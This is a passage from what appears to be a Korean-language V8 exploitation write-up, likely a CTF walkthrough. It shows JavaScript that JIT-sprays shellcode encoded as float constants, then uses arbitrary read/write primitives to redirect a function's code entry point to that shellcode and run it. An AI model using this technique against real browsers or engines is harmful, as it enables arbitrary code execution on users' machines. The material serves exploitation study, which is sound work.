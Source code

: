```js
        1.971182900255075e-246, // itof(0xceb909090e28948n)
        1.9710902863710406e-246, // itof(0xceb903bb0c03148n)
        -6.828527034370483e-229 // itof(0x909090909090050fn)
    ];
}
console.log("[+] JIT spraying...");
for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // optimization

% DebugPrint(jit);
```

![image](https://github.com/user-attachments/assets/10ac6a84-2129-49e3-9eda-67830e8ac98a)

`jit()`가 반환하는 array에 중복된 값들이 존재할 경우, 위와 같이 레지스터에 저장했다가 재사용하도록 컴파일되어 shellcode가 작동하지 않는다. 따라서 `nop`의 위치를 옮기거나 코드의 순서를 바꿔서 중복된 값들이 없도록 만들어야 한다.

```js
function jit() {
    return [
        1.9711828996832522e-246, // itof(0xceb909090c03148n)
        1.971112871410787e-246, // itof(0xceb9050636cb866n)
        1.9711314215434657e-246, // itof(0xceb906163782fb8n)
        1.97118242283721e-246, // itof(0xceb909020e0c148n)
        1.9616425752617766e-246, // itof(0xceb6e69622f0548n)
        1.9711832695973408e-246, // itof(0xceb9090e7894850n)
        1.971182900582351e-246, // itof(0xceb909090f63148n)
        1.9711831018987653e-246, // itof(0xceb9090c0314890n) (edited)
        1.971112653196158e-246, // itof(0xceb9050303ab866n)
        1.9710920957760286e-246, // itof(0xceb903d59414cb8n)
        1.9710610293119303e-246, // itof(0xceb9020e0c14890n) (edited)
        1.9532382542574046e-246, // itof(0xceb505349440548n)
        1.971183239760578e-246, // itof(0xceb9090e0894850n)
        1.9711128050518315e-246, // itof(0xceb905053db3148n)
        1.971182900255075e-246, // itof(0xceb909090e28948n)
        1.9710902863710406e-246, // itof(0xceb903bb0c03148n)
        -6.828527034370483e-229 // itof(0x909090909090050fn)
    ];
}
console.log("[+] JIT spraying...");
for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // optimization
```

이후 `jit()`의 `code_entry_point`를 shellcode의 주소로 덮어쓰고 `jit()`를 호출하면 shellcode가 실행된다.

```js
let jit_addr = v8_base + addrof(jit); // address of |jit()|
console.log(`[+] jit_addr == ${hex(jit_addr)}`);
let code_addr = v8_base + (aarw(jit_addr - 1n + 0x18n) & 0xffffffffn); // address of CodeDataContainer of |jit()|
console.log(`[+] code_addr == ${hex(code_addr)}`)
let entrypoint_addr = aarw(code_addr - 1n + 0x10n); // address of code_entry_point of |jit()|
console.log(`[+] entrypoint_addr == ${hex(entrypoint_addr)}`);

// overwrite code_entry_point of |jit()| with address of shellcode
// aarw(code_addr - 1n + 0x10n, entrypoint_addr + 0x7en); // debug
aarw(code_addr - 1n + 0x10n, entrypoint_addr + 0x67n); // release

// execute shellcode
console.log("[+] Executing shellcode...");
jit();
```
